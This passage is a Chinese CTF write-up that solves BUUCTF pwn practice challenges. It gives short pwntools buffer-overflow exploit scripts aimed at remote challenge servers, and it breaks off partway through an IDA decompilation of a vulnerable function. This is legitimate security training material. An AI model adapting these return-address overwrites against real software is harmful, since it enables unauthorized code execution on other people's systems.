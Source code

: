 [BUUCTF网站](https://buuoj.cn/challenges)

笔者认为过于简单的题目会直接附上exp。
~~（不得不说buu的题目还挺多的）~~
零基础pwn萌新推荐先看这个：[视频](https://www.bilibili.com/video/BV1854y1y7Ro)

# buu001-test_your_nc
连上就行

# buu002-rip
```python
from pwn import *
context.log_level='debug'

# io = process('./pwn1')
io = remote('node4.buuoj.cn', 27534)

io.sendline(cyclic(15) + p64(0x401186))

io.interactive()
```
# buu003-warmup_csaw_2016
```python
from pwn import *

# io = process('./pwn')
io = remote('node4.buuoj.cn', 25377)

io.sendlineafter(b'>', cyclic(64+8) + p64(0x40060D))

io.interactive()
```
# buu004-ciscn_2019_n_1

```python
from pwn import *

# io = process("./pwn")
io = remote('node4.buuoj.cn', 26735)

io.sendlineafter(b'Let\'s guess the number', cyclic(44) + p32(0x41348000))

io.interactive()
```
# buu005-pwn1_sctf_2016
这道题是一个C++ pwn，但是逻辑不难理解，简单分析一下。下面是IDA反汇编的漏洞函数：
```cpp
int vuln()
{
  const char *v0; // eax
  char s[32]; // [esp+1Ch] [ebp-3Ch] BYREF
  char v3[4]; // [esp+3Ch] [ebp-1Ch] BYREF
  char v4[7]; // [esp+40h] [ebp-18h] BYREF
  char v5; // [esp+47h] [ebp-11h] BYREF
  char v6[7]; // [esp+48h] [ebp-10h] BYREF
  char v7[5]; // [esp+4Fh] [ebp-9h] BYREF

  printf("Tell me something about yourself: ");
  fgets(s, 32, edata);
```
